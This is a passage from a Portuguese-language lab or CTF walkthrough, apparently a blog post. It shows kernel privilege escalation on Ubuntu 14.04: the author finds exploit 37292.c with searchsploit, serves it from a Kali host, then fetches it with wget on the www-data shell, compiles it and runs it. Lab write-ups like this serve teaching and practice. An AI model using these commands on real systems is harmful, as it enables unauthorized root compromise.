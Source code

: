 
Agora com acesso ao shell, podemos escalonar privilégio. 
A história é mais longa do que isso, mas resumindo, usei um exploit para aquele kernel em específico.

No Kali Linux executei uma busca por aquela versão do kernel no exploitdb, e deixei o código malicioso disponível para download. 
```shell
searchsploit linux local kernel 3.13 ubuntu 14.04
searchsploit -m 37292.c
mv 37292.c /tmp
python3 -m http.server 80
```
{: file="Shell Kali"}

![searchsploit.png](searchsploit.png)

Voltando a console que ganhamos acesso com o usuário www-data, vamos baixar o exploit.
```shell
wget 192.168.56.109/37292.c
cd tmp
gcc 37292.c -o salve
./salve
whoami
```
{: file="Shell Web Server"}

![salve](salve.png)
